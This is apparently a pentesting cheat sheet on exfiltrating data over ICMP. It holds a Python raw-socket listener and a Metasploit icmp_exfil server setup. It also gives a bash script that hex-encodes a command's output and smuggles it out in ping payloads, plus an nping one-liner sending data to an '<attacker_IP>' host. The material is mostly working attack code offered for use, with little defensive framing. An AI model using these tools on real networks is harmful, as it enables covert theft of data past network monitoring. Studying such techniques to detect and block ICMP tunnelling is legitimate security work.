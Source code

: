 # ICMP

## 01 - Server Setup

### 1.1 - Python Script Server

`$ cat icmp_server.py`

---

```python
import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
while True:
    data, src = s.recvfrom(1600)
    payload = data[44:60]
    sys.stdout.write(payload)
```

### 1.2 - Metasploit

```
msf > use auxiliary/server/icmp_exfil

msf auxiliary(server/icmp_exfil) > options

Module options (auxiliary/server/icmp_exfil):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   BPF_FILTER       icmp             yes       BFP format filter to listen for
   END_TRIGGER      ^EOF             yes       Trigger for end of file
   FNAME_IN_PACKET  true             yes       Filename presented in first packet straight after START_TRIGGER
   INTERFACE                         no        The name of the interface
   RESP_CONT        OK               yes       Data ro resond when continuation of data expected
   RESP_END         COMPLETE         yes       Data to response when EOF received and data saved
   RESP_START       SEND             yes       Data to respond when initial trigger matches
   START_TRIGGER    ^BOF             yes       Trigger for beginning of file


View the full module info with the info, or info -d command.

msf auxiliary(server/icmp_exfil) > set interface <interface>

msf auxiliary(server/icmp_exfil) > set icmp and not src <target_IP>

msf auxiliary(server/icmp_exfil) > run -j
```

## 02 - Usage

### 2.1 - Unix Shell

`$ cat icmp.sh`

```bash
#!/bin/sh

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

```
$ chmod +x icmp.sh

$ ./icmp.sh <IP> file.txt
```

### 2.2 - Nping

`$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1`

## References

- [Can You Hack It - Quick Tips - Data Exfil Over ICMP](https://www.youtube.com/watch?v=IQwl3ZE0rK0)

- [ICMPExfil](https://github.com/martinoj2009/ICMPExfil)